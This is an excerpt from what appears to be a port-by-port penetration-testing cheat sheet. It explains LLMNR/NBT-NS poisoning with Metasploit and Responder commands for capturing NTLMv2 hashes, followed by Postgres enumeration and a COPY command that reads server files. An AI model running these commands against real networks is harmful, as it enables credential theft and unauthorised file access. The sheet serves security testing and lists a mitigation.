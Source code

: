 ### Port 5355 UDP / TCP - Link-Local Multicast Name Resolution (LLMNR) 

LLMNR + NBT-NS Poisoning:
1. The victim machine wants to connecet to print server at \\\printserver, but types in \\\pintserver.  
2. The DNS server responds to the victim saying that it doesn’t know that host.
3. The victim then asks if there is anyone on the local network that knows the location of \\\pintserver using LLMNR
4. The attacker responds to the victim saying that it is the \\\pintserver
5. The victim believes the attacker and sends its own username and NTLMv2 hash to the attacker.
6. The attacker can now crack the hash to discover the password

```bash
# Metasploit LLMNR Spoofer Module
msf> use auxiliary/spoof/llmnr/llmnr_response 

# SpiderLab's Responder
wget https://github.com/lgandx/Responder
python Responder.py -I <INTERFACE> -wfv


```

Attack Mitigation:
* Disable both LLMNR and NBT-NS
* https://www.sternsecurity.com/blog/local-network-attacks-llmnr-and-nbt-ns-poisoning



### Port 5432 / 5433 -  Postgresql

```bash
# Connect
psql -U <myuser> # Open psql console with user

# Remote connection
psql -h $IP -U <username> -d <database>
psql -h $IP -p <port> -U <username> -W <password> <database>

psql -h localhost -d <database_name> -U <User> #Password will be prompted
\list # List databases
\c <database> # use the database
\d # List tables
#To read a file:
CREATE TABLE demo(t text);
COPY demo from '[FILENAME]';
SELECT * FROM demo;

# Enumeration
msf> use auxiliary/scanner/postgres/postgres_version
msf> use auxiliary/scanner/postgres/postgres_dbname_flag_injection

```
### Port 5671 - AMQP
